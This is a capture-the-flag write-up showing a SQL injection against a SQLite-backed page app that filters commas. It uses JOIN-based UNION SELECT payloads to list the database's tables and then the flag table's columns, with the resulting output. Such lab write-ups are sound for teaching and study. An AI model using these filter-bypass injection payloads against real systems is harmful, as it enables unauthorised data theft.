 ## Solution

Reminder:
**We need to query a certain amount of columns without using commas**

This can be done by using the `JOIN` statement. By using the `JOIN` statement we can build multiple single column queries and join them together to create a multi-column query.

Example:

```sql
UNION SELECT title, id, content FROM pages
UNION (SELECT title FROM pages) JOIN (SELECT id FROM pages) as t2 JOIN (SELECT content FROM pages) as t3
```

This two queries will give the same result.

We can build our payload :)

### 1. Get the name of the table that contains the flag

Payload:
```
2,10 UNION SELECT * FROM (SELECT name as title FROM sqlite_master WHERE type='table')UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3
```

This will retrieve the name of all tables and append it to the result set. The `UT1`, `UT2` and `UT3` are just aliases to be able to join them together.
The `abc` and `1` are just dummy values to fill the columns.

This shows us this result:

```
...
Page 8 (ID=8) has content: "This is not a flag, but just a boring page."
Page 9 (ID=9) has content: "This is not a flag, but just a boring page."
Page 10 (ID=10) has content: "This is not a flag, but just a boring page."
1 (ID=flag) has content: "abc"
1 (ID=pages) has content: "abc"
```

**We can see that the table that contains the flag is called `flag`.**

### 2. Get the name of the columns in the flag table

With the same logic as before, we can get the name of the columns in the `flag` table:

```
2,10 UNION SELECT * FROM (SELECT name as title FROM PRAGMA_table_info('flag'))UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3
```

We use the `PRAGMA_table_info` command to get the name of the columns in the `flag` table. This will give us the following result:

```
...
Page 8 (ID=8) has content: "This is not a flag, but just a boring page."
Page 9 (ID=9) has content: "This is not a flag, but just a boring page."
Page 10 (ID=10) has content: "This is not a flag, but just a boring page."
1 (ID=id) has content: "abc"
1 (ID=name) has content: "abc"
1 (ID=value) has content: "abc"
```
